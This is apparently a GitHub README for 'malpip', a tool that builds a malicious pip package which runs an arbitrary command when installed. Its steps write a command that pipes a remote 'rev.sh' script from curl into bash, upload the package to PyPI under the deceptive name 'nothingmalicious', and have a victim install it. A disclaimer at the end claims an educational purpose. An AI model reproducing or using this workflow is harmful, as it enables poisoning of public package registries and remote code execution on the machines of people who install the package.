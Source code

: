 
# malpip
Tool that creates a malicious pip package that runs your command during installation.

## Prerequisite
Create an account on https://pypi.org

## Installation
1. Clone repository and set permissions.
```bash
git clone https://github.com/thegoodhackertv/malpip.git
cd malpip
sudo chmod +x malpip.sh
```
2. Install dependencies.
```bash
sudo ./malpip install
```
3. Set the command to be executed.
```bash
echo "curl -s http://localhost/rev.sh | bash" > command.txt
```
4. Create malicious project.
You will be asked for your pypi credentials to upload the project.
```bash
./malpip create nothingmalicious command.txt
```
5. Install the package on the victim machine and your command will be executed.
```bash
pip install nothingmalicious
```

## Useful Resources
- [Youtube video](https://youtu.be/ux32ZHUJbKk) (spanish)
- [Website post](https://thegoodhackertv.com/ciberseguridad/te-pueden-infectar-con-github-y-python/) (spanish)

## Disclaimer
Usage of these scripts for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

## Support
[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-orange.png">](https://www.buymeacoffee.com/thegoodhacker)
